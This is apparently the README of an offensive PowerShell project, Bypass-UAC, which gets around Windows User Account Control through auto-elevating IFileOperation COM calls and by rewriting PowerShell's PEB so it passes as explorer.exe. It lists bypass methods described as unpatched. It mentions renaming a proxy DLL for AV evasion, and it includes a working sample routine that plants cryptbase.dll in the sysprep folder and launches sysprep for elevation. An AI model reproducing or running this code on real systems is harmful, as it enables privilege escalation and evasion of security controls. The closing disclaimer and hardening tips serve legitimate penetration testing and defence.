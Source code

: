 # Bypass-UAC
Bypass-UAC provides a framework to perform UAC bypasses based on auto elevating IFileOperation COM object method calls. This is not a new technique, traditionally, this is accomplished by injecting a DLL into "explorer.exe". This is not desirable because injecting into explorer may trigger security alerts and working with unmanaged DLL's makes for an inflexible work-flow.

To get around this, Bypass-UAC implements a function which rewrites PowerShell's PEB to give it the appearance of "explorer.exe". This provides the same effect because COM objects exclusively rely on Windows's Process Status API (PSAPI) which reads the process PEB.

# Usage

Bypass-UAC is self-contained and does not have any dependencies, bar a requirement that the target have PowerShell v2.

#### Methods

* UacMethodSysprep: Original technique by Leo Davidson (sysprep -> cryptbase.dll)
  * Targets: x32/x64 Windows 7 & 8
* ucmDismMethod: Hybrid method (PkgMgr -> DISM -> dismcore.dll)
  * Targets: x64 Win7+ (currently unpatched)
* UacMethodMMC2: Hybrid method (mmc -> rsop.msc -> wbemcomn.dll)
  * Targets: x64 Win7+ (currently unpatched)
* UacMethodTcmsetup: Hybrid method (tcmsetup -> tcmsetup.exe.local -> comctl32.dll)
  * Targets: x32/x64 Win7+ (currently unpatched)

#### Sample Output

**Win 7 Pro**

![UacMethodSysprep](images/Win7-32.png)

**Win 10 Pro**

![UacMethodTcmsetup](images/Win10-32.png)

# Components

#### PSReflect

By [@mattifestation](https://twitter.com/mattifestation), allows you to easily define in-memory enums, structs, and Win32 functions. This is necessary because it allows PowerShell to use the Windows API without compiling c# at runtime. Doing that is ok most of the time but it writes temporary files to disk and won't work if csc is blacklisted.

#### Masquerade-PEB

A modified version of [Masquerade-PEB](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Masquerade-PEB.ps1), changed to use PSReflect. This function overwrites PowerShell's PEB to impersonate "explorer.exe".

#### Invoke-IFileOperation

Load a .NET dll into memory which exposes an IFileOperation COM object interface to PowerShell. This is based on work done by Stephen Toub, published in the December 2007 MSDN magazine (I added the pages in the [images](images) folder for reference). Further details available in the [FileOperations](FileOperations) folder.

```
PS C:\Users\b33f> $IFileOperation |Get-Member
 
    TypeName: FileOperation.FileOperation
 
 Name              MemberType Definition
 ----              ---------- ----------
 CopyItem          Method     void CopyItem(string source, string destination, string newName)
 DeleteItem        Method     void DeleteItem(string source)
 Dispose           Method     void Dispose(), void IDisposable.Dispose()
 Equals            Method     bool Equals(System.Object obj)
 GetHashCode       Method     int GetHashCode()
 GetType           Method     type GetType()
 MoveItem          Method     void MoveItem(string source, string destination, string newName)
 NewItem           Method     void NewItem(string folderName, string name, System.IO.FileAttributes attrs)
 PerformOperations Method     void PerformOperations()
 RenameItem        Method     void RenameItem(string source, string newName)
 ToString          Method     string ToString()
```

#### Emit-Yamabiko

Bootstrap function which writes an x32/x64 bit proxy dll to disk (Yamabiko). This dll is based on [fubuki](https://github.com/hfiref0x/UACME/tree/master/Source/Fubuki) from [@hfiref0x](https://twitter.com/hfiref0x)'s UACME project. Mostly I stripped out the redundant functionality and did some minor renaming for AV evasion. Further details available in the [Yamabiko](Yamabiko) folder.

# Contributing

Currently there are four methods in Bypass-UAC, I will add more gradually but it would be awesome if people want to contribute. It is really easy to add a new method, provided you need an elevated file copy/move/rename or folder creation. A sample method can be seen below for reference.

```powershell
'UacMethodSysprep'
{
    # Original Leo Davidson sysprep method
    # Works on everything pre 8.1
    if ($OSMajorMinor -ge 6.3) {
        echo "[!] Your OS does not support this method!`n"
        Return
    }

    # Impersonate explorer.exe
    echo "`n[!] Impersonating explorer.exe!"
    Masquerade-PEB -BinPath "C:\Windows\explorer.exe"

    if ($DllPath) {
        echo "[>] Using custom proxy dll.."
        echo "[+] Dll path: $DllPath"
    } else {
        # Write Yamabiko.dll to disk
        echo "[>] Dropping proxy dll.."
        Emit-Yamabiko
    }

    # Expose IFileOperation COM object
    Invoke-IFileOperation

    # Exploit logic
    echo "[>] Performing elevated IFileOperation::MoveItem operation.."
    $IFileOperation.MoveItem($DllPath, $($env:SystemRoot + '\System32\sysprep\'), "cryptbase.dll")
    $IFileOperation.PerformOperations()
    echo "`n[?] Executing sysprep.."
    IEX $($env:SystemRoot + '\System32\sysprep\sysprep.exe')

    # Clean-up
    echo "[!] UAC artifact: $($env:SystemRoot + '\System32\sysprep\cryptbase.dll')`n"
}
```

Similarly, using [EXPORTSTOC++](http://sourcesecure.net/tools/exportstoc/) you can easily copy/paste exports into Yamabiko to target new binaries!

# Disclaimer

This project is for authorized use only, that goes without saying, I don't take responsibility for foolish people doing bad things!

#### Protect Yourself

* Don't provide users with local Administrator rights.
* Change the default UAC setting to "Always notify me and wait for my response" & require users to enter their password.
* Remember Microsoft's official position is that UAC is not a security feature!

# References

* UACME
  * https://github.com/hfiref0x/UACME
* Windows 7 UAC whitelist
  * http://www.pretentiousname.com/misc/win7_uac_whitelist2.html
* Malicious Application Compatibility Shims
  * https://www.blackhat.com/docs/eu-15/materials/eu-15-Pierce-Defending-Against-Malicious-Application-Compatibility-Shims-wp.pdf
* KernelMode UACMe thread
  * http://www.kernelmode.info/forum/viewtopic.php?f=11&t=3643
* KernelMode, Using SxS redirection to gain NT AUTHORITY\SYSTEM privileges
  * http://www.kernelmode.info/forum/viewtopic.php?f=11&t=3643&start=110
* Syscan360, UAC security issues
  * https://www.syscan360.org/slides/2013_ZH_DeepThinkingTheUACSecurityIssues_Instruder.pdf
* Microsoft technet, Inside Windows 7 User Account Control
  * https://technet.microsoft.com/en-us/magazine/2009.07.uac.aspx
* Cobalt Strike, User Account Control – What Penetration Testers Should Know
  * http://blog.cobaltstrike.com/2014/03/20/user-account-control-what-penetration-testers-should-know/
